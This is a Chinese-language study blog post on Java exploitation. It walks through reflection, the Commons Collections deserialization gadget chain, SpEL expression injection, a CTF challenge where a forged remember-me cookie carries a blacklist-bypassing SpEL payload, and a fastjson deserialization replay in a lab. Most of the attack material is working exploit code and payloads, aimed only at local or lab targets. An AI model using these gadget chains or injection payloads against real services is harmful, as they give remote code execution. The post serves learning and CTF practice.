








## 反射相关概念

正常执行一条命令

```java
Runtime.getRuntime().exec("calc");
```

如果通过反射来执行：

```
Class clazz = Class.forName("java.lang.Runtime");
clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(null), "calc");
```

`Runtime` 的构造方法是私有的，遵循单例模式，所以无法直接调用，但是可以通过调用静态方法 `getRuntime` 来获得一个 `Runtime` 对象，这个方法是静态的，并不需要传递类的实例进去(不然就陷入了死循环)，而调用之后返回的结果是一个 `Runtime` 对象，作为 `exec` 方法的第一个参数，这是因为 `exec` 方法不是静态方法

我们正常执行方法是 `[1].method([2], [3], [4]...)` ，其实在反射里就是 `method.invoke([1], [2], [3], [4]...)`

当然如果分解开来比较好理解一点:

```java
Class clazz = Class.forName("java.lang.Runtime");  // 加载 java.lang.Runtime类
Method method1 = clazz.getMethod("getRuntime");    //获取到getRuntime方法
Runtime runtime = (Runtime) method1.invoke(null);  //调用，得到Runtime对象(其实可以直接拿这个对象去调用exec了)
//runtime.exec("calc") 即可
Method method2 = clazz.getMethod("exec", String.class); //得到exec方法
method2.invoke(runtime, "calc"); //调用exec方法
```

## 反序列化

java的反序列化是通过`ObjectOutputStream`和`ObjectInputStream`两个类来实现的，同时要序列化的类必须实现`Serializable`接口

与PHP类似，Java在序列化一个对象的时候会调用`writeObject`方法，在反序列化一个对象的时候会调用`readObject`方法

## Apache CommonsCollections反序列化

只要弄懂了反射的逻辑，那么理解 `CommonsCollections` 的payload也就不难了,重点在构造 `transformers` 数组的时候

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class), 
        new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{null,new Object[0]}),
        new InvokerTransformer("exec", new Class[]{
                String.class}, new Object[]{"calc"})};

Transformer transformedChain = new ChainedTransformer(transformers);
transformedChain.transform(transformers);  //触发
```

`transformers` 数组中的每一个对象都会调用一次 `transform` 函数，`ConstantTransformer` 直接返回了 `Runtime.class` 作为下一个 `transform` 的参数 等价于

```
Class clazz = Class.forName("java.lang.Runtime");  // 加载 java.lang.Runtime类
```

之后 `InvokerTransformer` 的 `transform` 接收传过来的 `Runtime.class` 去调用其 `getMethod`方法，等价于

```
Method method1 = clazz.getMethod("getRuntime");    //获取到getRuntime方法
```

返回了一个 `Method`类型的作为下一次 `transform` 的参数，之后的过程就是分别调用 `invoke` 和 `exec` 方法，等价于

```
Runtime runtime = (Runtime) method1.invoke(null);  //调用，得到Runtime对象(其实可以直接拿这个对象去调用exec了)
runtime.exec("calc")
```

由于 `getRuntime` 方法是静态的， `invoke` 的时候第一个参数不必是类的实例，之后由于已经获取到了 `Runtime` 的实例就不再需要通过反射去获得 `exec` 方法再 `invoke` 了，省去了一点麻烦的步骤

`getMethod` 和 `invoke` 方法的原型，所以我们在反射的时候也需要指定这些参数的class

```java
public Method getMethod(String name, Class<?>... parameterTypes)
public Object invoke(Object obj, Object... args)
```

但是实际上我们在调用 `getMethod` 的时候，只需要指定第一个参数为 `getRuntime` 即可，那么第二个参数我们可以设为 null 或者 `new Class[0]` ，同理， invoke 方法这里不需要指定参数可以将两个参数都设置为 null

理解一下 `collections.map.TransformedMap` 这个类，提供了一个 `decorateTransform` 方法，可以将普通的map转化为 `TransformedMap` ，这个函数的原型

```java
public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer)
```

第二个和第三个参数都是 `Transformer` 类型的，也就是每次更新map的时候，比如对map执行 put操作的时候

```java
public Object put(Object key, Object value) {
    key = transformKey(key);
    value = transformValue(value);
    return getMap().put(key, value);
}
```

会针对 key 和 value 执行 transform 操作

结合之前的 payload, 我们可以编写这个代码弹出计算器

```java
public class Test {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class}, new Object[] {
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, null }),
                new InvokerTransformer("exec", new Class[] {
                        String.class }, new Object[] {"calc.exe"})};
        Transformer transformedChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap(); 
        Map outMap = TransformedMap.decorate(innerMap, null, transformedChain); //转变为 TransformedMap 操作
        outMap.put("key", "value");//触发payload
    }
}
```

但是网上给的payload都是针对 `setValue` 方法触发的payload，这是怎么找到的

经过调试我发现 `AbstractMapEntryDecorator` 实现了 `Map`，其中的 `setValue` 是这么写的

```java
public Object setValue(Object object) {
    return entry.setValue(object);
}
```

这个方法之后又被 `AbstractInputCheckedMapDecorator` 的内部 `MapEntry` 类重写

```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value); //多了一次 checkSetValue 操作
    return entry.setValue(value);
}
```

这个多出来的 `checkSetValue` 方法又是 `AbstractInputCheckedMapDecorator` 的，而 `TransformedMap` 正是重写了这个方法



所以实际上是的结果是调用了 `TransformedMap` 的 `checkSetValue` 方法

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

这样就能触发payload了

之后寻找能够触发 `setValue` 方法的类，这里利用了 `AnnotationInvocationHandler`

不过这里只有jdk7才能运行，我开始用的jdk8不能成功

最后的测试代码

```java
package com.alibaba.dubbo.demo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.File;
import java.io.FileOutputStream;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

import javax.management.ObjectInstance;

import com.alibaba.dubbo.common.serialize.ObjectInput;

/**
 * @description: 测试
 * @author: Pxy
 * @create: 2020-01-31 16:21
 **/
public class Test {
        public static void main(String[] args) throws Exception {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class}, new Object[] {
                            "getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[] {
                            String.class }, new Object[] {"calc.exe"})};
            Transformer transformedChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("key", "value");
            Map outMap = TransformedMap.decorate(innerMap, null, transformedChain);
    
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = clazz.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            Object instance = ctor.newInstance(Retention.class, outMap);
            File f = new File("payload.bin");
            ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
            out.writeObject(instance);
            out.flush();
            out.close();

            ObjectInputStream input = new ObjectInputStream(new FileInputStream("payload.bin"));
            input.readObject();
            input.close();

        }
}
```

先断在这个 `AnnotationInvocationHandler` 类中



然后触发 `checkSetValue` 方法



最后成功弹出计算器

## SPEL表达式注入

类似于 jinja 表达式，不过更为强大

编写一个接口进行测试：

```java
@GetMapping("/spel")
public String spel(String input) throws  Exception{
    SpelExpressionParser parser = new SpelExpressionParser();
    Expression expression = (Expression)parser.parseExpression(input);
    return expression.getValue().toString();
}
```

访问 `/spel?input=new java.lang.ProcessBuilder("calc").start()`



## code-breaking javacon

这道题并不算难，结合了java反射和spel表达式注入

一个spring框架写的登陆界面，用户名和密码都是admin，有一个remember me可以勾选

`application.yml`中有一些相关的设置

```yaml
keywords:
  blacklist: 
    - java.+lang
    - Runtime
    - exec.*\(
user:
  username: admin
  password: admin
  rememberMeKey: c0dehack1nghere1
```

有一个黑名单过滤了一些字符，不过可以很容易地用字符串拼接进行绕过

仔细分析代码，其中有存在一处类似模板渲染的语句

```java
ParserContext parserContext = new TemplateParserContext();
Expression exp = parser.parseExpression(val, parserContext);
SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
return exp.getValue(evaluationContext).toString();
```

> Spring Expression Language（简称SpEL）是一种强大的表达式语言，支持在运行时查询和操作对象图。语言语法类似于Unified EL，但提供了额外的功能，特别是方法调用和基本的字符串模板功能。同时因为SpEL是以API接口的形式创建的，所以允许将其集成到其他应用程序和框架中。

这一处位于`getAdvanceValue`函数中，调用它的是这里：

```java
@GetMapping
public String admin(@CookieValue(value = "remember-me", required = false) String rememberMeValue,
                    HttpSession session,
                    Model model) {
    if (rememberMeValue != null && !rememberMeValue.equals("")) {
        String username = userConfig.decryptRememberMe(rememberMeValue);
        if (username != null) {
            session.setAttribute("username", username);
        }
    }

    Object username = session.getAttribute("username");
    if(username == null || username.toString().equals("")) {
        return "redirect:/login";
    }

    model.addAttribute("name", getAdvanceValue(username.toString()));
    return "hello";
}
```

这里相当于是admin的管理界面，首先会检查`rememberMeValue`的值，并且尝试去解密其中的用户名，同时加入到`session`中，之后执行`model.addAttribute("name", getAdvanceValue(username.toString()));`

那么这里的关键就是`cookie`中的rememberMeValue，由于我们已经知道了加密的算法和密钥(代码都是直接给的)，那么就可以通过伪造`rememberMeValue`来达到rce

首先需要一条java的反射链，因为要绕过一些关键字：

```
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")),"calc")
```

之后要将其构造成Spel表达式，就是增加一个`T()`

先本地测试弹一个计算器

```java
System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"calc\"})}")); //注意java的字符串必须是双引号
```

生成payload

```
bvik1nAmjEAllRdn5UKWGC9uCj0hW0P2B6k1uigkS1acKxD9b_xNi-x09UGgjU1DvDEI2GGk4Jn0ApM_cSVc0G7kGnvvtewNRVsfqFUCR0fMAPqbj6yqACW6XVtt8Fp1nBwebKd7pkYSZCv6Yj3X7H-0-8HDV6F3sS3yWHUQEBPAyiNmKfkSKUV5VVlNdo16Nij8YX8HvKdeMHJ7_5Sdjfmfq3dKPeUOivMyVp_GdEkffgly4YX4eWCOzQRr4uQgodsKw2pC9N9udnw3Fz7O5ZhzmoYttjLubBowMtkF-Q6HHCvBrK9SWCzRQXC6jqYX_XeqyZuDreUixnpXpzlN9Gj_AWy8DB8Dxea8atf2wr8=
```

之后登陆再替换掉cookie



## fastjson 反序列化(仅复现)

docker开启环境之后，首先需要生成一个 `TouchFile` 恶意文件，然后编译成class文件

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

用python开一个服务器，监听8001端口

再开启一个rmi服务器，靶机ip为192.168.99.100，本机相对靶机是192.168.99.1



这时候将payload发送过去，payload只是演示了在 tmp 目录下创建文件



创建成功



## 参考

[Java反序列化漏洞通用利用分析](https://blog.chaitin.cn/2015-11-11_java_unserialize_rce/#h4.1_%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%E6%A6%82%E8%BF%B0)
